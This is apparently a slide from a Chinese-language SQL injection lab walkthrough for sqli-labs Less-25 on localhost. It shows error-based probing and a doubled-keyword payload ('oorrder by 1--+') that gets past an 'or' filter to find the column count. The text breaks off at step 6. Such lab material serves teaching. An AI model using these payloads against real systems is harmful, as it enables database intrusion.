

# Less-25_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://127.0.0.1/sqli/Less-25/?id=1显示正常
2. http://127.0.0.1/sqli/Less-25/?id=1’ 此时报错，说明存在漏洞
3. http://127.0.0.1/sqli/Less-25/?id=1‘  order by  1--+ 使用order by 语句发现报错，无法使用
4. Hint: Your Input is Filtered with following result: 1‘ der by 1– 网页里，作者给出了一个提示，发现or被过滤了，我们尝试双写
5. http://127.0.0.1/sqli/Less-25/?id=1‘  oorrder by  1--+ 返回正常，可以进行测试，最后知道有3列
6. 双写的情况下，我们开始测试